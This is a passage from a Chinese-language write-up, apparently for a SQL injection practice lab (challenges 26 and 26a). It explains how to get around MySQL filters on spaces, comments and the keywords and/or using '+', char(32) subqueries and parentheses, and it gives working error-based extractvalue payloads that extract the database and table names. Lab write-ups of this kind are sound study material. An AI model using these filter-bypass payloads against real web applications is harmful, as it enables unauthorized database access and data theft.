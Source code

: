 在mysql中:`+`能在一些地方替代`空格`的作用，而`(select+char(32))`，此子句的返回值是`char()`函数

中的`ascii`对应值，也就是`空格`。而`()`中则能包含子查询，任何可以计算出结果的值都可以包含在括号中，而括号两端可以没有多余的空格。

> 三者相辅相成



采用`+`和`(select+char(32))`，还有`()`的组合就能替换掉空格和注释





payload:

```
?id=1'+(select+char(32))+extractvalue(1,concat(0x7e,(select+database())))+(select+char(35))+'
```

> 注意：上面的所有`+`都要url编码为`%2b`。否则表达的意思是空格

>  注意：此题，用我自己找到的解法貌似最多只能解到库名，再往下一步貌似是报错。







下面是我找到的终极payload

终极payload:

```
?id=1'+(select+char(32))+extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database()))))+(select+char(35))+'
```

> 注意所有的`+`都要替换为`%2b`，才能使用。













#### 26.a

> 此题的结题思路在`26`题中。有空的话自己看





此题是25题的升级，对`关键词and,or`,`(space)空格`,`#,--,/**/空格`，进行了过滤。

> 此题耗费了我不少的时间精力。



此题的主要绕过的思想就是：

1. `+`：表示连接，能在一些地方简单的代替`space`空格。(ps.当然，得使用`%2b`这种url编码才行，否则会被认为是空格)
2. `(select+char(32))`：通过`char()`函数得子查询能返回ascii码对应的字符。`空格`和`#`就是这样绕过


